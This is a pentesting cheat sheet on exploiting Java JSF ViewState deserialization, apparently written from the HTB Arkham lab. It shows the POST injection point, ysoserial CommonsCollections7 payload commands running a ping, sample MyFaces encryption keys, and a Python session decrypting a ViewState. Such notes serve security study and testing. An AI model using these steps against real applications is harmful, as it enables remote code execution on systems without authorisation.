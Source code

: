 ```yaml
---
layout: post
title: Java JSF ViewState Deserialization
description: Java JSF ViewState Deserialization
summary: Java JSF ViewState Deserialization
tags: [java,deserialization,foothold]
minute: 1
---
```

## Viewstate
* Maintains states between postbacks
* Can be stored on client or server side. This is controlled by `javax.faces.STATE_SAVING_METHOD` settings.
* There are 2 major implementatons:
	* Oracle Mojarra (JSF reference implementation)
	* Apache MyFaces
* Can also be encrypted. base64-encoded keys are set by `org.apache.myfaces.SECRET`.
* If viewstate starts with `H4sIAAAA`, it is base64 gzip

## Viewstate Structure
It is a `java.util.HashMap`. Here is an example when generating a payload using ysoserial.

`

On a side note, java serialized objects starts with `AC ED`. Here is an example viewstate from HTB Arkham.

```
b'\xac\xed\x00\x05ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\x03t\x00\x011pt\x00\x12/userSubscribe.jsp\x02\x02'
```

## Example Errors
```bash
# error when providing invalid value to viewstate
javax.faces.application.ViewExpiredException: viewId:&#47;userSubscribe.faces - No saved view state could be found for the view identifier: &#47;userSubscribe.faces
org.apache.myfaces.lifecycle.RestoreViewExecutor.execute(RestoreViewExecutor.java:88)
org.apache.myfaces.lifecycle.LifecycleImpl.executePhase(LifecycleImpl.java:103)
org.apache.myfaces.lifecycle.LifecycleImpl.execute(LifecycleImpl.java:76)
javax.faces.webapp.FacesServlet.service(FacesServlet.java:244)
org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
```

## Injection Points
```bash
# post data
j_id_jsp_1623871077_1%3Aemail=a&j_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j_id_jsp_1623871077_1_SUBMIT=1&javax.faces.ViewState={PAYLOAD}
```

## Payload Gadgets and Affected Libraries
* commons-collections-3.2.1.jar
* commons-collections:3.1 - CommonsCollections7 in ysoserial

## Payloads
```bash
# ysoserial, CommonsCollections7
java -jar ~/data/tools/webapp/ysoserial-master.jar CommonsCollections7 "ping 10.10.14.31"
java -jar ~/data/tools/webapp/ysoserial-master.jar CommonsCollections7 "ping 10.10.14.31" > payload.dat
```

## Interesting Files and Directories
```bash
# config files
faces-config.xml
web.xml
```

## Interesting URL Paths
```bash
# JSF pages normally ends in .faces
/{ANYTHING}.faces
:8080/UserSubscribe.faces
```

## Encryption
* Default algorithm is `DES ECB mode`
* Viewstate can be encrypted. You can check for encyrption keys in this part of config files.

```xml
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
<context-param>
```

* Here is an [example](https://0xdf.gitlab.io/2019/08/10/htb-arkham.html#decrypt-viewstate) encryption and decryption process using `HmacSHA1`

```bash
# encryption
payload -> des_ecb_encrypt -> hmac_sha1_sig -> b64_encode -> url_encode

# decryption
vs -> url_decode -> b64_decode -> hmac_sha1_unsig -> des_ecb_decrypt
```

* Python3 decryption

```python
# initialize
>>> vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'

# url_decode
>>> import urllib
>>> url_decoded = urllib.parse.unquote_plus(vs)
>>> url_decoded
'wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE='
>>> 

# b64_decode
>>> import base64
>>> b64_decoded = base64.b64decode(url_decoded)
>>> b64_decoded
b'\xc0z4\xc2b\xee\xe5\xc7\x88\xb4\x88\xbe#\xb5\xe4\x12-F\x01\xbe!\xd7e\x99\xf3\xde)\x03\xe6x8~\xdbr\x8d\xa3\\L\xb5E\x0cS\xa8\xb6.\xa2I\x8e\xefB\xad\x0e\xd9\xe0\x8c9\xb4\x98\xdc\xc0\xf6\xa1\xe3a\xea\xf1\xa3H\xd6\xef;\xb5\x99\xd2\x81^\xdcgOTf\x9de\x16L\x9c\x82\xb8\xd7\t\xbb\x11'
>>> 

# hmac_sha1_unsig - separate message and tag (mac)
#  tag     = last 20 bytes
#  message = whole signature - last 20 bytes
>>> t_bytes = b64_decoded[-20:]
>>> m_bytes = b64_decoded[:-20]
>>> t_bytes
b'\x99\xd2\x81^\xdcgOTf\x9de\x16L\x9c\x82\xb8\xd7\t\xbb\x11'
>>> m_bytes
b'\xc0z4\xc2b\xee\xe5\xc7\x88\xb4\x88\xbe#\xb5\xe4\x12-F\x01\xbe!\xd7e\x99\xf3\xde)\x03\xe6x8~\xdbr\x8d\xa3\\L\xb5E\x0cS\xa8\xb6.\xa2I\x8e\xefB\xad\x0e\xd9\xe0\x8c9\xb4\x98\xdc\xc0\xf6\xa1\xe3a\xea\xf1\xa3H\xd6\xef;\xb5'
>>> 

# des_ecb_decrypt - here you see the actual java serialized
# object which starts with "\xac\xed". It also includes the
# URL path associated with the object which is:
#   /userSubscribe.jsp
>>> from Crypto.Cipher import DES
>>> k = b'JsF9876-'
>>> crypter = DES.new(k, DES.MODE_ECB)
>>> crypter.decrypt(m_bytes)
b'\xac\xed\x00\x05ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\x03t\x00\x011pt\x00\x12/userSubscribe.jsp\x02\x02'
>>> 
```

## Tools
* [Online viewstate decoder](http://viewstatedecoder.azurewebsites.net/)

## References
* [Hacktricks - JSF Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization/java-jsf-viewstate-.faces-deserialization)
* [JSF ViewState upside-down](https://www.synacktiv.com/ressources/JSF_ViewState_InYourFace.pdf)
* [Demystifying Insecure Deserialisation on JSF Application](https://dhiyaneshgeek.github.io/web/security/2021/05/08/demystifying-insecure-deserialisation-on-JSF-application/)
* [Secure Your Application - MYFACES2 - Apache Software Foundation](https://cwiki.apache.org/confluence/display/MYFACES2/Secure+Your+Application)
* HTB Arkham